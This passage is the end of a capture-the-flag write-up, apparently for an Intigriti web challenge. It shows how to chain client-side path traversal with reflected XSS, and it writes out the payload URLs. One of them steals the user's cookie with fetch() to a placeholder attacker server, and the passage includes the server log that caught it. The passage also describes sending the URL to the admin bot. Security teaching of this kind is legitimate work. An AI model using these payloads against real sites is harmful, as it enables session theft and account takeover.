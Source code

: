 
Our input is reflected! Now it's time to try a different URL 😈

We want to add an XSS payload to the `name` parameter without interfering with the CSPT path. The best way to do this is by adding a query parameter, e.g., `/contact?xss=<img src=x onerror=alert(1)/>`, _but_ we need to URL-encode the `?` (or `#`) to ensure it's not processed by the `/view` endpoint.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img src=x onerror=alert(1)>`

![](./images/13.PNG)

We popped an alert! Now we'll set up an attacker server to exfiltrate the cookie and update our payload one final time 😌


```
http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=<img/src/onerror=fetch('https://ATTACKER_SERVER/?'%2bdocument.cookie)>
```


Note: you do need to URL-encode the `+` to `%2b` in the fetch request.

Checking the server logs, we get a hit containing the user cookie!


```bash
python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [27/Aug/2024 14:49:16] "GET /?cryptocatisthebest HTTP/1.1" 200 -
```


Finally, we just send the exact same URL to admin/bot using the `/report` endpoint and receive the _real_ flag 🚩

Flag: `INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}`
